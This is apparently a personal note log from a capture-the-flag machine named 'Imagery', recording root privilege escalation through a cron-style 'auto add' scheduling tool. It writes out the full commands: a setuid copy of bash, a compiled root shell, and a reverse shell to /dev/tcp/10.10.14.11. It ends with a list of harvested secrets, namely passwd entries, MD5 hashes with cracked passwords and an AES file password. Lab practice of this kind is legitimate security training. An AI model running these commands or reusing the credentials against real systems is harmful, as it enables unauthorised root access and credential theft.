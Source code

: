 auto edit 8a47f12b-48da-4828-a0ac-3b81e2468bb4 --schedule "* * * * *" --command "charcol backup -i /tmp/r3b00t/bash -o /tmp/r3b00t/rshell2 -p haha --no-timestamp" --name "binBashBkp2"  --log-output /tmp/r3b00t/backup.log

[15:52:55] Lets see what can we do 
[15:59:01] Lets see if we can add regular bash commands
	auto add --schedule "* * * * *" --command "cp /bin/bash /tmp/r3b00t/rootShell3; chmod u+s /tmp/r3b00t/rootShell3" --name "binBashBkp3"  --log-output /tmp/r3b00t/backup.log


[16:01:09] Lets see what happened . Shit I am stupid . We can run normal bash commands , i thought the --command in auto add was exclusive to the application commands only . Looks like we can add system commands too here

[16:04:38] It worked , but not able to get rootshell
	- -rwsr-xr-x  1 root root 1.5M Oct  3 10:32 rootShell3


auto edit 5fe76728-a07a-4159-9478-76401da09521 --schedule "* * * * *" --command "/tmp/r3b00t/rshellC" --name "binBashBkp4"  --log-output /tmp/r3b00t/backup4.log

[16:13:16] Okay compiled C code and added it to run as cron job. Lets see what happens

[16:16:58] Maybe we need to copy the file from /usr/bin

[17:14:35] Lets start another nc listeneer 
	- sh -i >& /dev/tcp/10.10.14.11/8188 0>&1

auto add --schedule "* * * * *" --command "/tmp/varRootShell" --name "varRootShell"  --log-output /tmp/r1.log

[19:05:27] I've figured out why the rootshell was not working . It is because there maybe nosuid=1 on /tmp which doesnt allow executing suid bits on /tmp

[19:10:08] This confirms why the suid was not working on /tmp folder
	root@Imagery:/root# mount | grep "/tmp"
	tmpfs on /tmp type tmpfs (rw,nosuid,nodev,size=1979616k,nr_inodes=1048576,inode64)



------ SECRETS FOUND ---------
[ EMAIL ] support@imagery.com 
[ ACCOUNT-ID ] 5c7ac980
[ LINUX ACCOUNTS ] root:x:0:0:root:/root:/bin/bash
[ LINUX ACCOUNTS ] web:x:1001:1001::/home/web:/bin/bash
[ LINUX ACCOUNTS ] mark:x:1002:1002::/home/mark:/bin/bash
[ APPLICATION ACCOUNT ] admin@imagery.htb : 5d9c1d507a3f76af1e5c97a3ad1eaa31 [ NOT FOUND ]
[ APPLICATION ACCOUNT ] testuser@imagery.htb : 2c65c8d7bfbca32a3ed42596192384f6 [ iambatman ]
[ AES FILE PASSWORD ] bestfriends
[ APPLICATION ACCOUNT ] mark@imagery.htb : 01c3d2e5bdaf6134cec0a367cf53e535 [ supersmash ]

